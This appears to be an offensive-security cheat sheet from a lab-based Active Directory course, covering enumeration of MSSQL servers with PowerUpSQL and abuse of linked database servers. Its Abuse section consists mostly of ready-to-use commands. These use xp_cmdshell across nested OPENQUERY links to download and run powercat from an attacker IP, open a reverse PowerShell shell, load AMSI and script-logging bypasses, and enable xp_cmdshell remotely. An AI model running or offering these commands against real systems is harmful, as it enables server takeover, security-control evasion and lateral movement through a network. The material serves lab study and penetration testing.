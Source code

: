 # MSSQL Servers

## Tools

[PowerUpSQL ](https://github.com/NetSPI/PowerUpSQL)includes functions that support SQL Server discovery, weak configuration auditing, privilege escalation on scale, and post exploitation actions such as OS command execution.

{% embed url="https://github.com/NetSPI/PowerUpSQL" %}

## Enumeration

```powershell
# SPN - Get SPNs that start with MSSQL
Get-SQLInstanceDomain

# Check Access
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded 

# Information
Get-SQLInstanceDomain | Get-SQLServerInfo
```

### Database Links

A database link allows a SQL Server to access external data sources like other SQL Servers and Data Source Objects (OLE DB).

In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures even across forest trusts.

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong># find links to remote machine
</strong>Get-SQLServerLink -Instance dcorp-mssql
# Using HeidiSQL
# Returns details about the existing database links
select * from master..sysservers

# database links - Loops till the final database link is reached. 
Get-SQLServerLinkCrawl -Instance dcorp-mssql 
# Using HeidiSQL - The above command does the following query in an automated way until the final database link is reached
select * from openquery("DCORP-SQL1", 'select * from openquery("DCORP-MGMT",''select * from master..sysservers'')')
</code></pre>

## Abuse

We can use links to execute commands across database links where Sysadmin set to 1

{% code overflow="wrap" %}
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'" -QueryTarget eu-sql
# Using HeidiSQL 
SELECT *
FROM OPENQUERY("dcorp-sql1", '
    SELECT * 
    FROM OPENQUERY("dcorp-mgmt", ''
       SELECT *
       FROM OPENQUERY("EU-SQL32.EU.EUROCORP.LOCAL",''''
           SELECT @@version AS version;
           EXEC master..xp_cmdshell "powershell iex (iwr http://172.16.100.83/powercat.ps1 -UseBasicParsing)";
       '''') 
    '')
')


# revshell example
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell "powershell iex ((New-Object Net.WebClient).DownloadString(''http://172.16.100.83/powercat.ps1;powercat -c 172.16.100.83 -p 443 -e powershell''));"' -QueryTarget <dblink-name-where-the-cmd-to-be-executed> 

Get-SQLServerLinkCrawl -Instance dcrop-mssql -Query 'exec master..xp_cmdshell "powershell -c"iex(iwr -UseBasicParsing http://172.16.100.1/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://172.16.100.1/amsibypass.txt);iex (iwr -UseBasicParsing http://172.16.100.1/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget eu-sql1
```
{% endcode %}

In case that `rpcout` is enabled (disabled by default), xp\_cmdshell can be enabled using:

```sql
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"
```

